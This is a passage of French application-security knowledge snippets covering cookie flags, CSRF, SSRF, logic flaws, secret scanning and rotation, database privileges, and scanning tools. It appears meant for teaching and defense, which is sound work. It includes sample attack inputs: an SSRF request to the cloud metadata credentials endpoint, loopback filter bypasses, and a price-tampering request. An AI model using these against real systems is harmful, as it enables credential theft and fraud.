content: Un Set-Cookie: sid=... sans attributs part aussi en HTTP clair, est lisible par tout script injecté et accompagne les requêtes inter-sites, ce qui ouvre le vol de session et le CSRF. Correction : Set-Cookie: sid=<RANDOM>; Path=/; Secure; HttpOnly; SameSite=Lax. Note : HttpOnly n'empêche pas un XSS d'agir depuis la session.
description: Trois attributs à vérifier sur chaque cookie de session ; curl -sI https://<HOST>/login | grep -i set-cookie suffit pour les contrôler.
-->

<!-- snippet
id: appsec_csrf_mechanism_concept
type: concept
tech: securite-applicative
level: intermediate
importance: medium
format: knowledge
tags: csrf,samesite,cookie,api
title: CSRF : le navigateur joint le cookie sans demander
content: Une page piégée soumet automatiquement un formulaire vers votre site, et le navigateur ajoute le cookie de session de la victime connectée. Défenses : SameSite=Lax ou Strict, jeton anti-CSRF lié à la session sur toute modification d'état, pas de modification avec GET. Une API qui n'accepte que Authorization: Bearer n'est pas concernée, car le navigateur n'envoie pas cet en-tête seul.
description: Le CSRF cible les authentifications envoyées automatiquement par le navigateur (cookies), pas les jetons placés explicitement dans un en-tête.
-->

<!-- snippet
id: appsec_ssrf_metadata_concept
type: concept
tech: securite-applicative
level: intermediate
importance: high
format: knowledge
tags: ssrf,cloud,metadata,validation-url
title: SSRF : l'URL fournie atteint le réseau interne via le serveur
content: Une fonction « importer depuis une URL » reçoit http://169.254.169.254/latest/meta-data/iam/security-credentials/ et le serveur appelle le service de métadonnées cloud, qui peut renvoyer des identifiants temporaires. Une liste noire de 127.0.0.1 est contournée par 127.1, 0x7f000001 ou [::1]. Défense : liste blanche de domaines, ou résolution DNS puis contrôle de l'IP, sans redirections, plus filtrage des flux sortants.
description: Toute fonction qui fait récupérer une URL par le serveur (import, webhook, aperçu, PDF) est un point d'entrée SSRF à tester.
-->

<!-- snippet
id: appsec_https_business_logic_warning
type: warning
tech: securite-applicative
level: intermediate
importance: high
format: knowledge
tags: https,logique-metier,burp,validation
title: HTTPS et WAF ne voient pas les failles de logique métier
content: POST /checkout avec {"price":0.01} passe en TLS valide, sans caractère suspect, et un WAF le laisse passer. Le serveur croit le champ envoyé par le client. Correction : recalculer prix, remise et droits côté serveur, imposer l'ordre du workflow par une machine à états, rendre atomiques les opérations concurrentes (transaction, SELECT ... FOR UPDATE, contrainte CHECK).
description: Burp Suite rejoue des requêtes TLS valides modifiées ; seule la vérification métier côté serveur arrête une manipulation de prix ou de workflow.
-->

<!-- snippet
id: appsec_gitleaks_scan_command
type: command
tech: securite-applicative
level: beginner
importance: high
format: knowledge
tags: gitleaks,secrets,git,ci
title: Rechercher des secrets dans un dépôt Git
context: La sous-commande varie selon la version de gitleaks (detect ou git dans les versions récentes)
command: gitleaks detect --source <REPO_PATH> --verbose
example: gitleaks detect --source ./shop-backend --verbose
description: Analyse l'historique complet, pas seulement l'état actuel. Un secret supprimé du code mais présent dans un ancien commit reste compromis et doit être révoqué.
-->

<!-- snippet
id: appsec_secret_leak_rotation_tip
type: tip
tech: securite-applicative
level: intermediate
importance: high
format: knowledge
tags: secrets,rotation,git,incident
title: Secret fuité : révoquer avant de nettoyer l'historique
content: Dès qu'une clé ou un mot de passe apparaît dans un dépôt, une image ou un log CI, la première action est de le révoquer et d'en générer un nouveau, puis de redéployer. Ensuite seulement, réécrire l'historique avec git filter-repo. Un nettoyage seul laisse la clé valide, et les robots copient les dépôts publics en quelques minutes.
description: L'ordre compte : la réécriture de l'historique ne retire pas un secret déjà copié, seule la révocation le fait.
-->

<!-- snippet
id: appsec_db_least_privilege_tip
type: tip
tech: securite-applicative
level: intermediate
importance: high
format: knowledge
tags: base-de-donnees,postgresql,moindre-privilege,injection-sql
title: Compte applicatif de base avec droits DML ciblés
content: Créer deux rôles : un pour les migrations (DDL, utilisé seulement au déploiement) et un pour l'exécution. Sur le second : REVOKE ALL ON SCHEMA public FROM PUBLIC; GRANT USAGE ON SCHEMA public TO app_web; GRANT SELECT, INSERT, UPDATE ON <TABLES_USED> TO app_web; sans DELETE, DROP ni accès aux tables d'administration. Une injection `DROP TABLE` ou `UNION SELECT` sur une table interdite échoue alors.
description: Ne limite pas l'injection, mais en réduit l'impact ; à revoir à chaque nouvelle fonctionnalité qui ajoute une table.
-->

<!-- snippet
id: appsec_db_exposure_nmap_command
type: command
tech: securite-applicative
level: beginner
importance: medium
format: knowledge
tags: nmap,base-de-donnees,exposition,audit
title: Vérifier l'exposition réseau des ports de base de données
command: nmap -Pn -p 3306,5432,6379,9200,27017 <HOST>
example: nmap -Pn -p 3306,5432,6379,9200,27017 203.0.113.25
description: Un port open depuis Internet signale une base exposée. Redis, Elasticsearch et MongoDB sans authentification sont des sources récurrentes de fuites de masse.
-->

<!-- snippet
id: appsec_backup_restore_tip
type: tip
tech: securite-applicative
level: intermediate
importance: medium
format: knowledge
tags: sauvegarde,chiffrement,restauration,ransomware
title: Sauvegardes chiffrées, immuables et restaurées en test
content: Chiffrer avant stockage (pg_dump <DB> | age -r <PUBLIC_KEY> > backup.sql.age), garder une copie hors ligne ou immuable et séparer les droits : le compte qui écrit les sauvegardes ne peut ni les lire ni les supprimer. Planifier une restauration de test, par exemple chaque trimestre, vers un environnement isolé.
description: Un rançongiciel avec les identifiants de production supprime aussi les sauvegardes accessibles ; seul un test de restauration prouve qu'elles sont utilisables.
-->

<!-- snippet
id: appsec_semgrep_scan_command
type: command
tech: securite-applicative
level: intermediate
importance: medium
format: knowledge
tags: semgrep,sast,owasp,ci
title: Analyse statique OWASP avec Semgrep
command: semgrep scan --config p/owasp-top-ten --error <SRC_PATH>
example: semgrep scan --config p/owasp-top-ten --error ./src
description: Détecte concaténations SQL, innerHTML, eval. L'option --error renvoie un code non nul en cas de constat, ce qui permet de bloquer une pull request.
-->

<!-- snippet
id: appsec_trivy_fs_command
type: command
tech: securite-applicative
level: intermediate
importance: medium
format: knowledge
tags: trivy,sca,dependances,secrets
title: Scanner dépendances et secrets avec Trivy
command: trivy fs --scanners vuln,secret --severity HIGH,CRITICAL --exit-code 1 <PROJECT_PATH>
example: trivy fs --scanners vuln,secret --severity HIGH,CRITICAL --exit-code 1 .
description: Limiter le blocage aux sévérités HIGH et CRITICAL évite que les alertes mineures noient l'équipe et conduisent à désactiver le contrôle.
-->

<!-- snippet
id: appsec_zap_baseline_command
type: command
tech: securite-applicative
level: intermediate
importance: low
format: knowledge
tags: zap,dast,staging,headers
title: Scan DAST passif avec OWASP ZAP baseline
context: À lancer sur un environnement de staging ; les options peuvent varier selon la version de l'image
command: docker run --rm -t ghcr.io/zaproxy/zaproxy:stable zap-baseline.py -t https://<STAGING_HOST>
example: docker run --rm -t ghcr.io/zaproxy/zaproxy:stable zap-baseline.py -t https://staging.shop.example
description: Le mode baseline est passif et rapide : il repère en-têtes manquants et fuites d'information, mais pas les IDOR ni les failles de logique.
-->
